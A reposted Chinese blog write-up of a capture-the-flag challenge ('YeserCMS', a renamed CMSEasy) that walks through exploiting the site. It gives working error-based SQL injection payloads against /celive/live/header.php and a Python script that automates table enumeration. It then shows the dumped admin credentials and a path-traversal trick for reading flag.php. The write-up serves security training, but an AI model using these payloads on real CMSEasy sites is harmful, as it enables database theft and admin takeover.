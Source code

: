 <!--yml
category: 未分类
date: 2022-04-26 14:41:39
-->

# “百度杯”CTF比赛 九月场 YeserCMS 详细解析_「已注销」的博客-CSDN博客_yesercms漏洞

> 来源：[https://blog.csdn.net/drip_big/article/details/105504818](https://blog.csdn.net/drip_big/article/details/105504818)

# “百度杯”CTF比赛 九月场 YeserCMS 详细解析

看题解的，对每个关键步骤做出详细注释

题目内容：

新的CMS系统，帮忙测测是否有漏洞。

## 1 第一步就是了解这是什么cms

百度YeserCMS，没有相关CMS，应该是改了名字。
在网站内找一找，没看到哪里有标志信息，一下几种方式可以辨认

1.  直接用浏览器搜索cms指纹识别![在这里插入图片描述](img/b2530a1021f4e4abcdcf560b037842c1.png)
2.  ![在这里插入图片描述](img/36de091a66727ef7b5f2cf611a8ca79b.png)搜索 “手机版 - 购物车 - 留言 - 繁体 - 注册 / 登陆”这样的**标志信息**，找到使用相同类型cms的网站，然后有些网站就会留下Powered by Cms 的信息，比如这样![在这里插入图片描述](img/5c490d0d838041efecbbae79e5ce887b.png)

注：识别cms的方式可以参照[常见的判断网站cms方法](https://blog.csdn.net/qq1124794084/article/details/79218596)
不过自己做的时候直接查找cms指纹识别就好了，识别不出来在想别的办法。

## 2 已知CMSEasy,百度该cms的历史漏洞

找到一个无限制报错漏洞
[无限制报错漏洞](https://www.cnblogs.com/yangxiaodi/p/6963624.html)
给出了注入方式：

```
url: /celive/live/header.php

post：

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529 
```

由该漏洞可知，以上内容是经过url二次编码得到的结果，故先解码查看（直接百度搜索url解码就行）

```
postdata:
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

## 3 分析该注入语句，尝试注入

原注入语句是用UpdateXML报错注入，CONCAT连接mid提取的来自cmseasy_user的数据，修改注入语句为：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECTGROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

将选择的表变为information_schema.tables，并且查询表名，结果为

```
XPATH syntax error: '[yesercms_a_attachment,yesercms_' 
```

还有表未爆出，用py脚本跑：
python3

```
import requests
url = 'http://f519a38b813f47619130e22fae5abe4f9a2ff7125379491f.changame.ichunqiu.com//celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print(r.content[22:53]) 
```

查询出一堆表，搜索一下是否存在user表
找到yesercms_user表

## 4 对yesercms_user进行注入，试图找到管理员账号

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL) 
```

其实就是将原来漏洞的注入语句中的cmseasy_user表换成yesercms_user
**因为输出长度的限制**分1,32和32,64两次注入,结果为：
XPATH syntax error: ‘[admin|ff512d4240cbbdeafada40467’
XPATH syntax error: ‘[7ccbe61]’

[admin|ff512d4240cbbdeafada404677ccbe61]
对密码进行MD5解码（浏览器直接找工具）
[admin|Yeser231]

## 5 登入后台找flag.php

登入之后在管理界面看是否有文件上传点，有没有可以修改直接让后台读取的文件。
在修改模板的位置发现可以利用，
每次修改后台会寻找这些文件并且提交给我们，
我们可以截取报文并修改指向文件的指针(id),
然后台读取flag.php
操作如下：
![在这里插入图片描述](img/59ddc86d253dd984d720add4fbeca385.png)点击编辑并抓包
![在这里插入图片描述](img/58081e5c1eb7deec7e8feedd876aa803.png)改id为flag.php,…/flag.php,…/…/flag.php测试，最后得出flag

注：本实验主要是sql注入的知识点，还有最后通过修改读取文件信息的操作

~~sql注入是真他喵的难~~